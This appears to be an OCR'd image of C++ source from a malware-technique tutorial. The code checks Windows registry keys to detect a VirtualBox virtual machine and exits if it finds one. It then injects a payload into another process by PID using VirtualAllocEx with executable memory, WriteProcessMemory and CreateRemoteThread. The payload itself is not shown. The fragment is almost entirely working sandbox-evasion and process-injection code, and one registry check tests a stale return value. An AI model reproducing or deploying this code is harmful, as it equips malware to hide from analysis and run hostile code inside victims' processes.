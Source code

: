 ```cpp
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, 
  &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, 
    (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  if (reg_key_ex(HKEY_LOCAL_MACHINE, 
  "HARDWARE\\ACPI\\FADT\\VBOX__")) {
    printf("VirtualBox VM reg path value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "SystemProductName", "VirtualBox")) {
    printf("VirtualBox VM reg key value detected :(\n");
    return -2;
  }

  if (reg_key_compare(HKEY_LOCAL_MACHINE, 
  "SYSTEM\\CurrentControlSet\\Control\\SystemInformation",
  "BiosVersion", "VirtualBox")) {
    printf("VirtualBox VM BIOS version detected :(\n");
    return -2;
  }

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```